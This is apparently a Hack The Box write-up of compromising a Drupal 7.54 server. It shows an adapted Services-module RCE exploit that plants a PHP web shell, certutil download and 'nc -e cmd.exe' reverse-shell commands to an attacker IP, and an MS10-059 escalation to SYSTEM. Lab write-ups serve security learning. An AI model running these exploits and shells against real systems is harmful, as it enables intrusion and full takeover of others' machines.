

## Enumeration

First we do the nmap scan:
```bash
nmap -v -sV -sC -T5 -oN nmap.txt 10.10.10.9
......
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

We see 3 ports are open. Only interesting port is 80 which is running drupal cms. 

We need to find the cms correct and exact version to search for known vulnerability. Let's go to ```10.10.10.9/CHANGELOG.txt``` and we see something like:
```
Drupal 7.54, 2017-02-01
```


## Searching For Vulnerablity
I used searchsploit command in kali to search the vulnerability:


The working exploit is:
```bash
exploits/php/webapps/41564.php
```
I simply edited two lines of this exploit:
```php
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
to

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
But the exploit failed!

I was not that familiar with this vulnerability. Found another article about this vulnerability is <https://www.ambionics.io/blog/drupal-services-module-rce>. I did some more Google search, and found i need to make another post request before working this exploit:

```html
POST /rest HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
```
After this request with burp suite, the server replied:
```html
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Type: text/html
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Powered-By: ASP.NET
Date: Sat, 09 May 2020 18:39:15 GMT
Connection: close
Content-Length: 62

Services Endpoint "rest_endpoint" has been setup successfully.
```

## Working Exploit
I had to fix some lines in the exploit and modify the ```$endpoint_path```
Exploit final modification was(For some troublshooting i used burpsuite here):

```php
$url = 'http://127.0.0.1:8081';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'backdoor.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
];
```

And 
```bash
root@kali:/opt/htb1/basterd# php *.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://127.0.0.1:8081/backdoor.php
```

### Reverse Shell

I have uploaded nc.exe and :
```bat
http://10.10.10.9/backdoor.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe nc.exe
http://10.10.10.9/backdoor.php?cmd=nc -e cmd.exe ip port
```

I quickly got shell in my kali machine. I save the output of ```systeminfo``` command and use [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) python script:
```bash
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --systeminfo sysfo.txt -d *.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
I exploited [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) for privilege escalation as follows:

```bash
nc -lvp 444
listening on [any] 444 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.9] 51514
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>Chimichurri.exe 10.10.14.14 333    
Chimichurri.exe 10.10.14.14 333

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\inetpub\drupal-7.54>
C:\inetpub\drupal-7.54>
```

In another terminal nc was waiting for the connection on port 333. In few seconds i got shell:

```bash
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of c:\Users\Administrator\Desktop

19/03/2017  08:33     <DIR>          .
19/03/2017  08:33     <DIR>          ..
19/03/2017  08:34                 32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.801.559.552 bytes free

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c
c:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

c:\Users\Administrator\Desktop>
```

